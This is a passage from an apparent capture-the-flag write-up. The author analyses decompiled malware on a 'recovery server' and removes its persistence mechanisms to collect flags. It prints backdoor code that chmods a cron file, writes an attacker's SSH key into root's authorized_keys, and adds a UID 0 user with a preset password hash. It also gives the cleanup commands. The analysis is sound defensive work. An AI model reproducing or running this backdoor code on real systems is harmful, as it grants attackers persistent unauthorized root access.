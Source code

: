   fclose(pFVar2);
  chmod("/opt/brilliant_script.sh",0x1ff);
  chmod("/etc/cron.d/evil",0x1ed);
  return;
}

</code></pre>
<br><br><br>

once eliminated I got the flag
<pre><code>alex@recoveryserver:/lib/x86_64-linux-gnu$ sudo mv oldliblogging.so liblogging.so</code></pre>
<br><br><br>

# Fourth flag (flag 3)

Going back to the previous code, the next thing it does is to give an attacker the ability to access the system as root via SSH. This is a way to create a backdoor into the system, because by adding your SSH key to the authorized_keys file, the attacker can remotely connect to the system without authenticating with a password.
<pre><code>pFVar2 = fopen("/root/.ssh/authorized_keys","w");
  fprintf(pFVar2,"%s\n",
          "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4U9gOtekRWtwKBl3+ysB5WfybPSi/rpvDDfvRNZ+BL81mQYTMP bY3bD6u2eYYXfWMK6k3XsILBizVqCqQVNZeyUj5x2FFEZ0R+HmxXQkBi+yNMYoJYgHQyngIezdBsparH62RUTfmUbw GlT0kxqnnZQsJbXnUCspo0zOhl8tK4qr8uy2PAG7QbqzL/epfRPjBn4f3CWV+EwkkkE9XLpJ+SHWPl8JSdiD/gTIMd 0P9TD1Ig5w6F0f4yeGxIVIjxrA4MCHMmo1U9vsIkThfLq80tWp9VzwHjaev9jnTFg+bZnTxIoT4+Q2gLV124qdqzw5 4x9AmYfoOfH9tBwr0+pJNWi1CtGo1YUaHeQsA8fska7fHeS6czjVr6Y76QiWqq44q/BzdQ9klTEkNSs+2sQs9csUyb WsXumipViSUla63cLnkfFr3D9nzDbFHek6OEk+ZLyp8YEaghHMfB6IFhu09w5cPZApTngxyzJU7CgwiccZtXURnBmK V72rFO6ISrus= root@recovery"
         );
  fclose(pFVar2);</code></pre>
<br><br><br>

I delete the authorized_keys file located in the /root/.ssh/ directory. This file is crucial for SSH authentication, as it contains the authorized public keys to access the system root account remotely, without the need for a password.

once removed I get the flag
<pre><code>alex@recoveryserver:/lib/x86_64-linux-gnu$ sudo rm /root/.ssh/authorized_keys</code></pre>
<br><br><br>

# Fifth flag (flag 4)

This code creates a new user named security with UID 0 and GID 0, which gives it the same privileges as root, allowing it full control of the system. It then sets a predefined, encrypted password for this user using the chpasswd -e command, allowing an attacker unrestricted access to the system as long as he knows the password. This is a backdoor mechanism that facilitates persistent and unauthorized access, allowing privilege escalation. To mitigate this risk, it is essential to remove the malicious user (userdel -r security), check /etc/passwd for suspicious accounts and scan authentication logs for unusual activity.
<pre><code> fclose(pFVar2);
  system("/usr/sbin/useradd --non-unique -u 0 -g 0 security 2>/dev/null");
  system(
        "/bin/echo \'security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3V rUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/\' | /usr/sbin/chpasswd -e"
        );</code></pre>
<br><br><br>

